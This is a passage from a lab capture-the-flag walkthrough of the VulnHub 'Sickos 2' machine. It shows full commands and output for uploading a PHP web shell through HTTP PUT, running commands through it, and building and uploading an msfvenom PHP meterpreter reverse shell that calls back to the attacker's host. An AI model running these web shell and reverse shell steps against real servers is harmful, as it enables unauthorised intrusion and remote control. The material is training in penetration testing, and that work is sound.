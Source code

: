 ```

`curl -v -X PUT -d '<?php system ($_GET['cmd']) ?>' http://172.16.139.177/test/cmd.php`

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/Sickos 2]
└─$ curl -v -X PUT -d '<?php system ($_GET['cmd']) ?>' http://172.16.139.177/test/cmd.php
*   Trying 172.16.139.177:80...
* Connected to 172.16.139.177 (172.16.139.177) port 80 (#0)
> PUT /test/cmd.php HTTP/1.1
> Host: 172.16.139.177
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 28
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 28 out of 28 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 201 Created
< Content-Length: 0
< Date: Sun, 16 May 2021 19:44:12 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 172.16.139.177 left intact
```
Now let check `http://172.16.139.177/test/` we can see we have sucessfully uploaded it cool right?? now let try to execute command .

`http://172.16.139.177/test/cmd.php?cmd=id` and boom it working .

![image](https://user-images.githubusercontent.com/69868171/118410536-e8454680-b65d-11eb-9007-05c9b0ff7114.png)

Now let try to get a shell back to us using msfvenom now .

`msfvenom -p php/meterpreter_reverse_tcp lhost=172.20.10.4 lport=443 -f raw > shell.php`

why do i use port 443 because most of the port on the machine is blocked and i think the only ports that give back reverse shell is port 443 and port 8080 now let upload the shell we just generated.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/Sickos 2]
└─$ curl -T shell.php http://172.16.139.177/test/shell.php
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```
Strange but i got failed so i try doing some research on it with no time i found the fix ahhh cool right .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/Sickos 2]
└─$ curl -T shell.php http://172.16.139.177/test/shell.php --http1.0
```
Now let check `http://172.16.139.177/test/` back to confirm if it uploaded .

```
